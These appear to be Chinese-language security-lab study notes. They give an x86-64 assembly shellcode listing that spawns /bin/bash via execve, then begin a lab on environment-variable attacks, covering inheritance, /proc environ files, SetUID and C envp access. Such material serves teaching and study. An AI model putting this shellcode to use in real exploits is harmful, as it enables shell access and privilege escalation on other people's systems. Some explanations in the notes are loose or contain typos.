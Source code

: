 #### 64位shellcode

64位程序下栈空间为8bytes，所以填充的字符串应该是8bytes的倍数

```wasm
section .text
  global _start
    _start:
      ; The following code calls execve("/bin/sh", ...)
      xor  rdx, rdx       ; 3rd argument
      push rdx
      
      mov rax,'#######h'
      shr rax,56
      push rax
      
      mov rax,'/bin/bas'
      push rax
      mov rdi, rsp        ; 1st argument
      
      push rdx 
      push rdi
      mov rsi, rsp        ; 2nd argument
      xor  rax, rax
      mov al, 0x3b        ; execve()
      syscall
​
```

### Lab6 环境变量攻击

环境变量概念： 一组动态的定义值，操作系统运行环境的一部分，决定加载哪些外部dll

#### 进程获取环境变量

* 子进程可以继承父进程的所有环境变量。在继承之后**父进程更改环境变量子进程不会同步更改**
* 用`Execve`调用新进程，可以在`Execve`中设置 `char *const envp[]`进行环境变量的传输
* 文件系统知识：/proc是Linux的虚拟文件夹，他是包含每个就能成的目录（如`/proc/XXX/environ`存放XXX进程环境变量）
* Shell命令变量与环境变量不同。shell启动时会复制环境变量，但对shell变量的更改不会影响到环境变量
* 环境变量的攻击面：用户`SetUID()` 可以变为管理员权限
* `SetUID`概念：每个进程都有两个ID, 而访问控制基于EUID也就是我们可以设置的UID

打印包含关键词的环境变量命令： `$ env | grep PWD`

设置新的环境变量：`$ export test_env=aaa`

c语言获取环境变量的两种方式：

```c
//第一种
void main(int argc, char * argv[], char * envp[])   ###envp就收环境变量
​
​
//第二种
extern char ** environ;
​
```
